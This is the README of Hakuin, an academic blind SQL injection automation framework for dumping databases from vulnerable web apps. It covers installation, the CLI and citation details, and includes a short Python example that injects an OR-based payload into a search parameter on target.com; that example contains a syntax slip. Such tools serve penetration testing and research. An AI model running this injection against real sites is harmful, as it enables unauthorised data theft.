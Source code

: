 <p align="center">
    <img width="150" src="https://raw.githubusercontent.com/pruzko/hakuin/main/logo.png">
</p>

Hakuin is a Blind SQL Injection (BSQLI) optimization and automation framework written in Python 3. It abstracts away the extraction logic and allows users to easily and efficiently dump databases from vulnerable web applications. To speed up the process, Hakuin utilizes a variety of optimization methods, including pre-trained and adaptive language models, opportunistic guessing, statistical modeling, parallelism, ternary queries, and more.

Hakuin has been presented at esteemed academic and industrial conferences:
- [BSides, Bratislava](https://bsidesba.sk/schedule), 2025
- [BlackHat MEA, Riyadh](https://blackhatmea.com/session/hakuin-injecting-brain-blind-sql-injection), 2023
- [Hack in the Box, Phuket](https://conference.hitb.org/hitbsecconf2023hkt/session/hakuin-injecting-brains-into-blind-sql-injection/), 2023
- [IEEE S&P Workshop on Offsensive Technology (WOOT)](https://wootconference.org/papers/woot23-paper17.pdf), 2023

More information can be found in our [paper](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_WOOT_23.pdf) and [slides](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_HITB_23.pdf).



## Installation
To install Hakuin, simply run:
```
pip3 install hakuin
```



## Command Line Tool
Hakuin ships with an intuitive tool that offers most of Hakuin's features directly from the command line:
```
hk -h
```



## Custom Scripting
Sometimes, BSQLI vulnerabilities are too tricky to exploit from the command line and require custom scripting. This is where Hakuin shines, allowing you to customize absolutely everything - the injection logic, the inference logic, and even the queries.

Here is a minimal example:
```python
import asyncio
import aiohttp
from hakuin import Extractor, Requester

class SimpleRequester(Requester):
    async def request(self, query, ctx):
        payload = query.render(ctx)
        url = f'http://target.com/users?search=XXX" OR ({payload})--'
        async with aiohttp.request('GET', url) as resp:
            return resp.status == 200

async def main():
    requester = SimpleRequester():
    ext = Extractor(requester=requester, dbms='sqlite')
    data = await ext.extract_table_names()
    print(data)

asyncio.run(main())
```

Make sure to go through our [tutorial](https://github.com/pruzko/hakuin/blob/main/publications/TUTORIAL.md).



## For Researchers
This repository is actively developed to fit the needs of security practitioners. Researchers looking to reproduce the experiments described in our paper should install the [frozen version](https://zenodo.org/record/7804243) as it contains the original code, experiment scripts, and an instruction manual for reproducing the results.


#### Cite Hakuin
```
@inproceedings{hakuin_bsqli,
  title={Hakuin: Optimizing Blind SQL Injection with Probabilistic Language Models},
  author={Pru{\v{z}}inec, Jakub and Nguyen, Quynh Anh},
  booktitle={2023 IEEE Security and Privacy Workshops (SPW)},
  pages={384--393},
  year={2023},
  organization={IEEE}
}
```
